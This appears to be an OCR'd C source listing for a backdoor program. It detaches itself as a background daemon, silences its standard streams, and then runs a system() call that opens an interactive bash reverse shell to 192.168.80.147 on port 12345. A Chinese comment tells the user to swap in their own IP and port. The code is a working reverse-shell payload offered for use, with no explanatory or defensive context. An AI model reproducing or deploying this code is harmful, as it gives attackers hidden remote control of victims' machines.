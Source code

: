```c
    exit(EXIT_FAILURE);
}
while (0);

void creat_daemon(void);
int main(void)
{
    time_t t;
    int fd;
    creat_daemon();
    // 将ip和端口进行替换
    system("bash -i >& /dev/tcp/192.168.80.147/12345 0>&1");
    return 0;
}

void creat_daemon(void)
{
    pid_t pid;
    int devnullfd,fd,fdtablesize;
    umask(0);

    pid = fork();
    if( pid == -1)
        ERR_EXIT("fork error");
    if(pid > 0 )
        exit(EXIT_SUCCESS);
    if(setsid() == -1)
        ERR_EXIT("SETSID ERROR");
    chdir("/");

    /* close any open file descriptors */
    for(fd = 0, fdtablesize = getdtablesize(); fd < fdtablesize; fd++)
        close(fd);

    devnullfd = open("/dev/null", 0);

    /* make STDIN ,STDOUT and STDERR point to /dev/null */
    if (devnullfd == -1) {
        ERR_EXIT("can't open /dev/null");
    }
    if (dup2(devnullfd, STDIN_FILENO) == -1) {
        ERR_EXIT("can't dup2 /dev/null to STDIN_FILENO");
    }
    if (dup2(devnullfd, STDOUT_FILENO) == -1) {
        ERR_EXIT("can't dup2 /dev/null to STDOUT_FILENO");
    }
    if (dup2(devnullfd, STDERR_FILENO) == -1) {
        ERR_EXIT("can't dup2 /dev/null to STDOUT_FILENO");
    }
    signal(SIGCHLD,SIG_IGN); 
    return;
}
```
